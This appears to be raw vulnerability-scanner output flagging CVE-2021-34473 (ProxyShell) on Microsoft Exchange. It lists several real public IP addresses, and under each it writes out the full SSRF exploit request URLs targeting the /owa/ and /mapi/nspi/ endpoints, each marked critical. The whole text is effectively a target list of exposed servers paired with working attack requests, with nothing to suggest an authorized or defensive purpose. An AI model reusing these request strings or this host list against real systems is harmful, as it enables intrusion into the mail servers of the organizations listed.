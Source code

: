 [CVE-2021-34473] [http] [critical] https://81.222.193.130/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://81.222.193.130/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 82.198.169.205  
  
---  
[CVE-2021-34473] [http] [critical] https://82.198.169.205/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://82.198.169.205/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 83.136.243.54  
  
---  
[CVE-2021-34473] [http] [critical] https://83.136.243.54/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://83.136.243.54/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 83.243.66.234  
  
---  
[CVE-2021-34473] [http] [critical] https://83.243.66.234/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://83.243.66.234/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 84.42.11.38  
  
---  
[CVE-2021-34473] [http] [critical] https://84.42.11.38/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://84.42.11.38/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 83.69.198.242  
  
---  
[CVE-2021-34473] [http] [critical] https://83.69.198.242/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://83.69.198.242/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 84.242.52.6  
  
---  